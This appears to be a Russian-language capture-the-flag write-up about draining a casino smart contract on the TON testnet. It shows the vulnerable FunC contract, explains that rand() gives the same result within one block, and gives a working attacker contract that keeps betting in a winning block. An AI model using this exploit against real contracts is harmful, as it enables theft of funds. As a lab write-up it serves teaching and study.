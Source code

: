 # 4-day
- Дали [контракт](https://testnet.tonviewer.com/kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX), который запущен по адресу `kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX`
- Известен исходный код контракта

```jsx
#include "imports/stdlib.fc";

const gas_cost = 10000000;

() send(slice addr, slice body, int grams) impure inline_ref {
  ;; int_msg_info$0 ihr_disabled:Bool bounce:Bool bounced:Bool src:MsgAddress -> 011000
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    slice msg = in_msg_full.begin_parse();
    int flags = msg~load_uint(4);
    slice source_address = msg~load_msg_addr();
    if (flags & 1) {
        return ();
    }
    if (rand(10) < 4) {
        if (msg_value * 2 < my_balance - gas_cost) {
            send(source_address, "you won", msg_value * 2);
        } else {
            send(source_address, "vault is empty", my_balance - gas_cost);
        }
        return ();
    }
}

```

Это казино, на нём 100 тонов и надо их всех выкачать

# Решение

Таск основывается на том, что ещё в первый день Вова вкинул, что он знает как взломать контракт Тимура и после этого Тимур дописал `randomize_lt()`

Сама по себе`rand(n)` является небезопасной функцией и работает следующим образом:

- `seed` в контракте определяется `hash(block_seed, account_address)`
- `block_seed` текущего блока знают только валидаторы, а мы этот сид никак узнать не можем

> [Therefore, to predict the result of the random() function in a smart contract, you just need to know the current seed of the block, which isn't possible if you're not a validator.](https://docs.ton.org/v3/guidelines/smart-contracts/security/random-number-generation#how-can-someone-predict-a-random-number)

Тем не менее, можно провести атаку на рандом в пределах одного блока

## Как работает атака?

1. Отправляем первую ставку в казино
2. Если выиграли (получили сообщение `You won`) → продолжаем спамить такие же ставки в тот же блок
3. Если не получили ответа → блок сменился, мы проиграли, останавливаем атаку.
4. Повторяем процесс на новом блоке, пока не обанкротим казино.

Когда казино обанкротилось, выводим деньги из атаковавшего контракта себе на основной аккаунт

## Почему это работает?

`seed` фиксирован в рамках одного блока и если одна ставка выйграла, то и всё ставки в текущем блоке выйграют

## Код атакующего контракта

Может быть не идеальным, но он работает

```jsx
#include "imports/stdlib.fc";

const admin_address = "0QCpmGaG1ypBqdY757UNTZphiXJOMu0bGPxumvjYTu4KEhDj"a;
const vova = "kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX"a;

() send_real_bet(slice addr, slice body, int grams) impure inline_ref {
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    if (in_msg_body.slice_empty?()) {
        return ();
    }

    int op = in_msg_body~load_uint(32);

    slice cs = in_msg_full.begin_parse();
    int flags = cs~load_uint(4);
    if (flags & 1) {
        return ();
    }
    slice source_address = cs~load_msg_addr();
    
    if (op == 0) {
        send_real_bet(vova, "auto try", 133700000);
    }
    if (op == 1) {
        send_real_bet(vova, "init try", 100000000);
    }
    ;; ручка для вывода денег
    if (op == 2) {
        if (equal_slices_bits(admin_address, source_address)) { 
            cell msg =  begin_cell()
                .store_uint(0x18, 6)
                .store_slice(source_address)
                .store_coins(0) 
                .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
                .store_uint(0, 32)
                .store_slice("money back")
            .end_cell();
            send_raw_message(msg, 128);
            return ();
        }
    }

    return ();
}
```

# Схема атаки (упрощённая)

В реальности будет в районе 500 транзакций в одной

![[scheme_attack.png]]
Узел A - мой основной аккаунт, который принудительно запускает всё с сообщением `init try`

Узел B - атакующий контракт, который понял, что в этом блоке у нас подходящий `seed`, поэтому начинаем атаковать отсылая сообщения `auto try`

Узел C - казино, принимает ставки и возвращает сообщения `you won` с выигрышем

Атака прекратится после первой неудачи, когда узел C не вернёт никакого ответа
--------
@Jl4cTuk
